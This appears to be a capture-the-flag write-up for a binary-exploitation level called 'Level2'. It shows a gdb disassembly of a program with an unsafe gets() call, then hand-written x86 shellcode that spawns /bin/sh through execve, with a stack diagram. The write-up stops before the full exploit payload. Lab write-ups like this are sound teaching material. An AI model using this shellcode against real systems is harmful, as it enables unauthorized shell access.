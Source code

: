 # Level2

	(gdb) disas main
	Dump of assembler code for function main:
	   0x0804853f <+0>:	push   %ebp
	   0x08048540 <+1>:	mov    %esp,%ebp
	   0x08048542 <+3>:	and    $0xfffffff0,%esp
	   0x08048545 <+6>:	call   0x80484d4 <p>
	   0x0804854a <+11>:	leave  
	   0x0804854b <+12>:	ret    
	End of assembler dump.
	(gdb) disas p
	Dump of assembler code for function p:
	   0x080484d4 <+0>:	push   %ebp
	   0x080484d5 <+1>:	mov    %esp,%ebp
	   0x080484d7 <+3>:	sub    $0x68,%esp
	   0x080484da <+6>:	mov    0x8049860,%eax
	   0x080484df <+11>:	mov    %eax,(%esp)
	   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
	   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
	   0x080484ea <+22>:	mov    %eax,(%esp)
	   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
	   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
	   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
	   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
	   0x080484fb <+39>:	and    $0xb0000000,%eax
	   0x08048500 <+44>:	cmp    $0xb0000000,%eax
	   0x08048505 <+49>:	jne    0x8048527 <p+83>
	   0x08048507 <+51>:	mov    $0x8048620,%eax
	   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
	   0x0804850f <+59>:	mov    %edx,0x4(%esp)
	   0x08048513 <+63>:	mov    %eax,(%esp)
	   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
	   0x0804851b <+71>:	movl   $0x1,(%esp)
	   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
	   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
	   0x0804852a <+86>:	mov    %eax,(%esp)
	   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
	   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
	   0x08048535 <+97>:	mov    %eax,(%esp)
	   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
	   0x0804853d <+105>:	leave  
	   0x0804853e <+106>:	ret    
	End of assembler dump.

There is another vulnerable gets call, however this time there is no useful function to exploit.
We can build our own asm code that will run a shell, and pass its memory address to the binary somehow.

Here is our code :

	global	_start
	section	.text
	
	_start:	
		; set registers to NULL
		xor	eax, eax
		xor	ebx, ebx
		xor	ecx, ecx
		xor	edx, edx
	
		push	edx		; push NULL
		; We need to push /bin/sh on the stack using a x86 architecture. So we need to push 4 bytes at a time, and in little endian number
		push	0x68732f6e	; hs/n
		push	0x69622f2f	; ib//
		
		mov	ebx, esp
		push	edx ; push NULL
		
		push	ebx ; push string address
		
		mov	ecx, esp
		mov	al, 11 ; syscall number of execve
		int	0x80

This is how the stack will look like : 

	   +------------------------+
	|        //bin/sh        |<-+
	+------------------------+  |
	|         edx = 0        |  |
	+------------------------+  |
	+->|   ebx = addr chaine    |--+
	|  +------------------------+
	|  |            0           |
	|  +------------------------+
	+--| ecx = addr addr chaine |
	+------------------------+

[source](https://repo.zenk-security.com/Techniques%20d.attaques%20%20.%20%20Failles/Les%20shellcodes.pdf)
